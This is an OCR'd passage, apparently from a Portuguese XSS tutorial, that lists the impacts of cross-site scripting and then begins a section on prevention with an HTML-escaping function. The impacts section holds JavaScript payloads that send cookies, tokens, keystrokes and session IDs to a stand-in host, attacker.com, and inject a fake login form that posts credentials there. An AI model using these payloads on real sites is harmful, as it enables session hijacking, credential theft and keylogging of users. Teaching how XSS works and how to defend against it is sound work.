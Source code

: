 ## Impactos do XSS

### **Roubo de Dados Sensíveis**
```javascript
// Roubo de cookies
document.location='//attacker.com/steal?cookie='+document.cookie;

// Roubo de tokens
fetch('/api/token').then(r=>r.text()).then(token=>
    fetch('//attacker.com/steal?token='+token)
);

// Keylogger
document.onkeypress = function(e) {
    fetch('//attacker.com/keys?key=' + String.fromCharCode(e.which));
};
```

### **Sequestro de Sessão**
```javascript
// Session hijacking
let sessionId = document.cookie.match(/JSESSIONID=([^;]+)/)[1];
fetch('//attacker.com/hijack?session=' + sessionId);
```

### **Phishing e Manipulação de Conteúdo**
```javascript
// Mudança de conteúdo da página
document.body.innerHTML = '<div style="text-align:center"><h1>Login Expirado</h1><form action="//attacker.com/phish"><input name="user" placeholder="Usuário"><input name="pass" type="password" placeholder="Senha"><button>Login</button></form></div>';
```

## Prevenção e Defesas

### **1. Input Validation e Sanitização**
```javascript
// Validação de entrada
function sanitizeInput(input) {
    return input.replace(/[<>\"']/g, function(match) {
        const map = {
            '<': '&lt;',
            '>': '&gt;',
            '"': '&quot;',
            "'": '&#39;'
        };
        return map[match];
    });
}
```

